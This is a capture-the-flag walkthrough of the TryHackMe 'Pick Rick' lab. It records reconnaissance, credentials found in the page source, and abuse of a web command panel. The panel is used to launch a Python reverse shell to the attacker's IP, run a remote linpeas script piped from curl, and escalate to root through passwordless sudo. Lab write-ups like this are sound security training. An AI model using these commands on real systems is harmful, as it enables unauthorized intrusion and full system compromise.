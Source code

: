 # Pick Rick

```bash
export IP=10.10.189.1
```


## Scans

### Nmap

Open Ports:
```
22 -- ssh
80 -- webserver
```

Found in webpage's page source:
```
Username: R1ckRul3s
```

Found in /robots.txt, possible password
```
Wubbalubbadubdub
```

### Gobuster

Directories found:
```
/assets
/index.html
/login.php
/portal.php
/robots.txt
```

credentials `R1ckRul3s:Wubbalubbadubdub` work on `/login.php` -- redirects to `/portal.php` after success

found in `/portal.php` page source: `Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==`

Turns out to be nested Base64: `rabbit hole`


## Initial Access

'Command Panel' exists on page but there's a blacklist on some commands

**First Ingredient found**: `mr. meeseek hair`
```
grep . Sup3rS3cretPickl3Ingred.txt
```


This tells us other Ingredients are in the file system
```
grep . clue.txt
```


## Reverse Shell

the 'Command Panel' in `/portal.php` runs Python3

Netcat Listening Port: (On Host)
```bash
nc -lnvp 9001
```

Reverse Shell Command: (In 'Command Panel', with Host tun0 IP, and '9001' port)
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.2.80.57",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Reverse Shell Achieved.

Upgrading Shell to TTY:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

**Second Ingredient Found**: `1 jerry tear`
```
cd /home/rick/
cat Second Ingredients
```


## Linpeas - Host Enumeration

On Host:
```bash
sudo python -m SimpleHTTPServer 80
```

On Target: (with Host tun0 IP)
```bash
cd /dev/shm/
curl 10.2.80.57/linpeas.sh | sh
```

Interesting Info found:
```
User www-data may run the following commands on ip-10-10-189-1.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

so:
```bash
sudo bash
```

Root Shell Achieved.

**Third Ingredient Found**: `fleeb juice`
```bash
whoami
cd /root/
ls
cat 3rd.txt
```


## Final Ingredients List:

1. `mr. meeseek hair` -- found in `/var/www/html/Sup3rS3cretPickl3Ingred.txt`

2. `1 jerry tear` -- found in `/home/rick/second ingredients`

3. `fleeb juice` -- found in `/root/3rd.txt`


---
[back to TryHackMe main page](thm.md)

[back to Index/Table of Contents](index.md)

